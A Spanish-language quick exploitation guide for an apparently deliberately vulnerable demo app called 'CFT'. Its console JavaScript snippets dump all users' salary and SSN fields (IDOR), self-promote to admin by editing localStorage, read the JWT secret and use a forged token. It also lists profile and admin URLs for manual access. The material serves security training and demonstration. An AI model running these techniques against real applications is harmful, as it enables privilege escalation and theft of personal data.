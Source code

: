 
## 🔧 Guía Rápida de Explotación CFT

### **🚀 Script Principal (Copia y Pega)**
```javascript
// EJECUTAR EN DEVTOOLS CONSOLE DEL CFT
CFTVulnerabilityDemo.runCompleteDemo();
```

### **📋 Comandos Individuales**

#### **Ver todos los usuarios (IDOR + Escalada Vertical):**
```javascript
if (window.debugAPI?.usersDatabase) {
  window.debugAPI.usersDatabase.forEach(u => 
    console.log(`${u.id}: ${u.username} (${u.role}) - ${u.profile?.salary} - ${u.profile?.ssn}`)
  );
} else {
  console.log("Ve manualmente a /profile/1, /profile/2, /profile/3, /profile/4 y /admin");
}
```

#### **Auto-promoción a Admin:**
```javascript
if (window.debugAPI?.usersDatabase) {
  const me = JSON.parse(localStorage.getItem('user'));
  const user = window.debugAPI.usersDatabase.find(u => u.id === me.id);
  if (user) { user.role = 'admin'; localStorage.setItem('user', JSON.stringify({...me, role: 'admin'})); }
  console.log("✅ Promovido a admin. Recarga la página.");
} else {
  console.log("Ve a /admin y usa la interfaz para cambiar roles");
}
```

#### **Robar JWT Secret:**
```javascript
if (window.debugAPI?.SYSTEM_CONFIG) {
  console.log("🔑 JWT Secret:", window.debugAPI.SYSTEM_CONFIG.jwt_secret);
} else {
  console.log("Secret conocida del código: 'vulnerable-secret-key'");
}
```

#### **Usar Token Falso:**
```javascript
window.useFakeToken(); // Después de ejecutar el script principal
```

### **🎯 URLs Importantes para Navegación Manual**
- `/profile/1` - Admin (datos del administrador)
- `/profile/2` - jaranguiz (usuario normal)
- `/profile/3` - james (usuario normal)  
- `/profile/4` - rob (usuario normal)
- `/admin` - Panel administrativo (accesible sin verificación de rol)
- `/system` - Información del sistema (si existe)
